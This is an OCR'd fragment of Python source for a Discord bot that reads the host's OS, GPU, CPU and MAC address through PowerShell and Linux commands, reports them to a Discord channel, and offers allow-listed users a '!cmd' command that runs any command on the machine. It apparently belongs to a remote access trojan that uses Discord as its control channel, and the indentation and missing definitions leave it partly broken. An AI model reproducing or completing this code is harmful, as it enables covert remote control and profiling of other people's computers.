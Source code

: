 ```py
    await channel.send(embed=embed)

    def get_os():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_OperatingSystem -ComputerName. | Select-Object -Property Caption"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["uname", "-a"]).decode("utf-8")
        return stdout.splitlines()[0]

def get_gpu():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_VideoController -ComputerName. | Select-Object -Property Name"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["lspci"]).decode("utf-8")
        
        for line in stdout.splitlines():
            if "VGA" in line or "3D" in line:
                return line
        return "GPU not found"

def get_processor():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_Processor -ComputerName. | Select-Object -Property Name"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["lscpu"]).decode("utf-8")
        
        for line in stdout.splitlines():
            if "Model name" in line:
                return line.split(":")[1].strip()
        return "Processor information not found"

def get_mac_address():
    mac = uuid.getnode()
    mac_address = ':'.join(f'{(mac >> ele) & 0xff:02x}' for ele in range(40, -1, -8))
    return mac_address

async def on_message(message):
    if message.author.bot:
        return

    if message.author.id not in AUTHORIZED_USERS:
        await message.channel.send("You are not authorized to use this bot.")
        return

    # Process commands
    if message.content.startswith('!helpme'):
        help_command = "\n".join([
            "`!helpme` - Displays this message.",
            "`!cmd <command>` - Run any command you want"
        ])
        embed = discord.Embed(title="Help", description=f"{help_command}", color=0xfafafa)
```